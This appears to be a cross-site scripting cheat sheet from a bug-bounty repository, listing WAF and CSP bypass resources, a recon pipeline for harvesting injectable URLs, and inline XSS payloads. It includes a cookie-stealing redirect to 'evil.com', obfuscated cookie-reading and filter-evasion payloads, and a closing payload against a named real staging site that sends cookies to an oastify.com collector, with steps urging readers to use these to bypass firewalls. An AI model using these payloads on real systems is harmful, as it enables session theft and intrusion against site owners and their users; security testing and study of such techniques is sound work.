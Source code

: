 
---

### **XSS (Cross-Site Scripting) Resources**

#### **1. WAF Bypass & XSS Cheat Sheets**
- **Awesome WAF**:
  ```bash
  https://github.com/0xInfection/Awesome-WAF
  ```
- **Ghetto Bypass**:
  ```bash
  https://d3adend.org/xss/ghettoBypass
  ```
- **Browser's XSS Filter Bypass Cheat Sheet**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet
  ```
- **Angular Bypass**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet#angularの利用
  ```

#### **2. XSS Techniques**
- **HTTP Only Bypass**:
  ```bash
  location.href = "evil.com?c='escape(document.cookie)'"
  ```
- **Meta Refresh**:
  ```bash
  <meta http-equiv="refresh" content="0; url=http://example.com/">
  ```
- **Method Spoofing**:
  ```bash
  POST /endpoint
  Host: example.com
  _method=POST&data[user][username]=xsspayload
  ```
- **SameSite Bypass**:
  ```bash
  https://hazanasec.github.io/2023-07-30-Samesite-bypass-method-override.md/
  ```
- **Script Source Bypass**:
  ```bash
  <script src=//14.rs>
  <script src=//ł.rip>
  ```
- **XSS Payload**:
  ```bash
  "><img/src='x'/onerror="parent['ale'+'rt'](parent['doc'+'ument']['cookie']);">
  ```
- **Using `eval`**:
  ```bash
  Use eval, but always make sure where to use + and where to use %2b.
  ```

#### **3. CSP (Content Security Policy)**
- **CSP Bypass**:
  ```bash
  https://www.notion.so/CSP-10615e0fe55e8064a661dcfb7c0ee992?pvs=21
  https://cspbypass.com/
  ```

#### **4. Additional Resources**
- **Medium Articles**:
  ```bash
  https://medium.com/@DrakenKun/how-i-was-able-to-find-4-cross-site-scripting-xss-on-vulnerability-disclosure-program-e2f39199ae16
  ```
- **Twitter Threads**:
  ```bash
  https://twitter.com/Botami143/status/1741363525568823385?t=Mh-SqOmunyxQyK7UhoQASQ&s=19
  ```
- **Hahwul's XSS Guide**:
  ```bash
  https://www.hahwul.com/cullinan/xss/?fbclid=IwAR1HX06q3yYwG73REvITzA7mshM0egPaGR0PzqbnzW25HE1h4XdPVrA1ZNY
  ```
- **WAF Bypass XSS Payloads**:
  ```bash
  https://github.com/gprime31/WAF-bypass-xss-payloads/tree/master?fbclid=IwAR3oBisE0veAu87f77xZVubYTTLa7k0bWKo7HTMprPgxfqm_-P2hKDAu2do
  ```
- **OWASP XSS Filter Evasion Cheat Sheet**:
  ```bash
  https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  ```
- **Zapstiko's XSS Payloads**:
  ```bash
  https://github.com/zapstiko/wordlists/blob/main/xss_payloads
  ```

#### **5. Advanced XSS Payloads**
- **Details Tag Exploit**:
  ```bash
  <dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>
  ```

---

### **How to Use This Information**
1. **WAF Bypass**:
   - Use the provided cheat sheets and payloads to bypass Web Application Firewalls (WAFs).

2. **XSS Techniques**:
   - Experiment with different XSS payloads and techniques to find vulnerabilities in web applications.

3. **CSP Bypass**:
   - Study CSP bypass techniques to understand how to exploit Content Security Policy misconfigurations.

4. **Additional Resources**:
   - Refer to the provided links for more in-depth guides and examples of XSS exploitation.

---

```bash
Find subdomains.
subfinder -d domain -all | httpx -o subs1
subdominator -d domain  | httpx -o subs2

Merge all subs in one file
cat sub1 subs2|anew subs

Find history.
cat subs | wayback |anew xss-wayback
katana -list subs -o xss-katana
cat subs | gau --subs -o xss-gau

Sort all history in one file.
cat xss-wayback xss-katana xss-gau |anew xss.txt

Delete unnecessary extensions.
cat xss.txt |sort -u | grep "=" | egrep -iv ".(css|woff|woff2|txt|js|m4r|m4p|m4b|ipa|asa|pkg|crash|asf|asx|wax|wmv|wmx|avi|bmp|class|divx|doc|docx|exe|gif|gz|gzip|ico|jpg|jpeg|jpe|webp|json|mdb|mid|midi|mov|qt|mp3|m4a|mp4|m4v|mpeg|mpg|mpe|webm|mpp|_otf|odb|odc|odf|odg|odp|ods|odt|ogg|pdf|png|pot|pps|ppt|pptx|ra|ram|svg|svgz|swf|tar|tif|tiff|_ttf|wav|wma|wri|xla|xls|xlsx|xlt|xlw|zip)" | uro | httpx | anew xss

Run knoxnl against xss with both GET,POST methods.
knoxnl -i xss -X BOTH -s -o xssoutput.txt
```

```
https://app.staging.makeswift.com/login?next=javascript%3Afetch(%27https%3A%2F%2Flrg1wp93ejpjd16ko0rfja8zqqwhk88x.oastify.com%2Fsteal%3Fcookie%3D%27%2BencodeURIComponent(document.cookie))
![image](https://github.com/user-attachments/assets/d9588aa4-44c3-4ae6-ae9c-07731ae84d9d)

```
